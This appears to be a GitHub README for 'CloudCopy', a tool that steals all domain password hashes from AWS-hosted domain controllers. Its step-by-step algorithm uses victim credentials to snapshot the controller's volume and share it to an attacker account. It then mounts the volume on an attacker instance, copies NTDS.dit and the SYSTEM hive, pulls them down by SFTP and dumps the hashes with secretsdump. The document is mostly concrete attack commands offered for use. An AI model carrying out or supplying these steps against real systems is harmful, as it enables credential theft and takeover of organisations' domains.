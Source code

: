 # CloudCopy
This script implements a cloud version of the Shadow Copy attack against domain controllers running in AWS. Any AWS user possessing the EC2:CreateSnapshot permission can steal the hashes of all domain users by creating a snapshot of the Domain Controller mounting it to an instance they control and exporting the NTDS.dit and SYSTEM registry hive file for use with Impacket's secretsdump project.

# Detailed CloudCopy Algorithm
1.  Load AWS CLI with Victim Credentials that have at least CreateSnapshot permissions
2.  Run "Describe-Instances" and show in list for attacker to select
3.  Run "Create-Snapshot" on volume of selected instance
4.  Run "modify-snapshot-attribute" on new snapshot to set "createVolumePermission" to attacker AWS Account
5.  Load AWS CLI with Attacker Credentials
6.  Run "run-instance" command to create new linux ec2 with our stolen snapshot
7.  Ssh run "sudo mkdir /windows"
8.  Ssh run "sudo mount /dev/xvdf1 /windows/"
9.  Ssh run "sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"
10. Ssh run "sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"
11. Ssh run "sudo chown ec2-user:ec2-user /home/ec2-user/*"
12. SFTP get "/home/ec2-user/SYSTEM ./SYSTEM"
13. SFTP get "/home/ec2-user/ntds.dit ./ntds.dit"
14. locally run "secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets #expects secretsdump to be on path
